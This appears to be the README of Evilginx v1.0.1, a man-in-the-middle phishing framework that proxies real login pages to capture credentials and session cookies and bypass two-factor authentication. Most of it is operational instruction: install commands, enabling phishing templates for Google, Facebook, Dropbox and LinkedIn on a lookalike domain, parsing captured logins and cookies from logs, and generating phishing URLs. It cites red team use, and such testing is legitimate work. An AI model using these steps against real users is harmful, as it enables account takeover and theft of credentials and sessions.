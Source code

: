 ## Evilginx v.1.0.1

![Evilginx](/img/evilginx-title.png?raw=true "Evilginx")

Evilginx is a man-in-the-middle attack framework used for phishing credentials and session cookies of any web service. It's core runs on Nginx HTTP server, which utilizes `proxy_pass` and `sub_filter` to proxy and modify HTTP content, while intercepting traffic between client and server.

You can learn how it works and how to install everything yourself on my blog:

First post slightly outdated now: [Evilginx - Advanced Phishing With Two-factor Authentication Bypass](https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/)

Evilginx 1.0 Update: [Evilginx 1.0 Update - Up Your Game in 2FA Phishing](https://breakdev.org/evilginx-1-0-update-up-your-game-in-2fa-phishing)

#### Contributors Hall of Fame

[@poweroftrue](https://github.com/poweroftrue)

#### Installation

Evilginx provides an installation script `install.sh` that takes care of installing the whole package on any Debian wheezy/jessie machine, in fire and forget manner.

```
git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh
```

#### Usage

```
            _ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ |             
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit
```

###### Setup

Enable or disable site configurations for use with Nginx server, using supplied Evilginx templates from `sites` directory.

```
usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.
```

List available site configuration templates:
```
python evilginx.py setup -l

Listing available supported sites:

 - dropbox (/root/evilginx/sites/dropbox/config)
   subdomains: www
 - google (/root/evilginx/sites/google/config)
   subdomains: accounts, ssl
 - facebook (/root/evilginx/sites/facebook/config)
   subdomains: www, m
 - linkedin (/root/evilginx/sites/linkedin/config)
   subdomains: www
```

Enable google phishing site with preregistered phishing domain `not-really-google.com`:
```
python evilginx.py setup --enable google -d not-really-google.com
```

Disable facebook phishing site:
```
python evilginx.py setup --disable facebook
```

###### Parse

Parse Nginx logs to extract intercepted login credentials and session cookies. Logs, by default, are saved in `logs` directory, where `evilginx.py` script resides.
This can be done automatically after you enable auto-parsing in the **Setup** phase.

```
usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.
```

Parse logs only for google site:
```
python evilginx.py parse -s google
```

Parse logs for all available sites:
```
python evilginx.py parse -s all
```

###### Generate URL

Generate phishing URLs that you can use in your Red Team Assessments.

```
usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.
```

Generate google phishing URL that will redirect victim to rick'roll video on successful login:
```
python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ

Generated following phishing URLs:

 : https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
 : https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
```